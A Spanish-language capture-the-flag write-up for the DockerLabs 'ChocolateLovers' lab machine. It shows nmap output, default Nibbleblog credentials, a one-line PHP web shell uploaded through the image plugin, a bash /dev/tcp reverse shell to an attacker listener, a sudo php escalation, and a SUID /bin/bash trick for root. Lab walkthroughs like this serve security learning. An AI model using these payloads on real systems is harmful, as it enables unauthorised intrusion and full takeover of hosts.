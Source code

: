 Máquina ChocolateLovers - Fácil

Reconocimiento con nmap:

```
# Nmap 7.94SVN scan initiated Wed May 15 09:12:59 2024 as: nmap -p- --open -sS -sCV --min-rate 5000 -vvv -n -Pn -oN Target 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000060s latency).
Scanned at 2024-05-15 09:13:00 CEST for 7s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 15 09:13:07 2024 -- 1 IP address (1 host up) scanned in 7.52 seconds
```

Vemos una página por defecto de apache, fuzzeo, no hay, le doy contrl+u y me encuentro la ruta que hay que seguir: /nibbleblog

# Explotación Web

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/468f1c95-0feb-446f-a01e-9e56a6a221d4)

En la ruta admin.php encontramos un panel de login, vemos que del cms nibbleblog las credenciales por defecto son admin:admin 


![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/605f0b7b-db64-4e89-a50e-81624aae0f9e)


Buscamos vulnerabilidades:


![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/4edb682a-8140-4513-b6a6-19c5e5d99319)

Encontramos una sql y un file upload con metasploit, he estado leyendo el script de metasploit, y vamos a hacerlo manualmente:

Entramos en el apartado del plugin my imagen, y subimos un backdoor

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/6f3f206c-538f-4195-99b6-f0dfb051a6d2)

```
<?php
        system($_GET['cmd'])
?>
```

lo metemos donde pone browser y lo subimos, y ya tendriamos un rce:ç

(script que he leido para la explotacion: https://github.com/dix0nym/CVE-2015-6967/blob/main/exploit.py)


![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/8904f665-d7af-40ee-9016-32b41aa196c4)

Ahora una simple reverse shell y ya estariamos dentro

```
bash -c "bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261" # Máquina víctima
nc -nlvp 443 # Máquina atacante
```

# Escalada de privilegios

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/9c63597e-3a67-4950-ba81-0c00e8e3c9e9)

Primero tratamiento de la tty:

```
script /dev/null -c bash
{ctrl+z}

stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash

stty size # ver en mi pantalla
stty rows 47 columns 210
```

Ejecutamos sudo -l y vemos que esta php, pero solo es para el usuario chocolate:

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/d673dc05-805f-45d3-89c8-ba132dfc2c22)

Vemos desde searchbins que es lo que hay que hacer:

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/a4cab2d4-089b-4d20-8582-53045dcd1e49)

y ejecutamos:

```
CMD="/bin/bash"
sudo -u chocolate /usr/bin/php -r "system('$CMD');"
```

![image](https://github.com/M4nuTCP/Dockerlabs-Writups/assets/96147300/661b36b9-b887-438a-9c3f-5d5216209db2)

encontramos el script /opt/script.php:

```
echo '<?php exec("chmod u+s /bin/bash"); ?>' > /opt/script.php
```

entonces ya ejecutamos el comando bash -p y conseguimos root





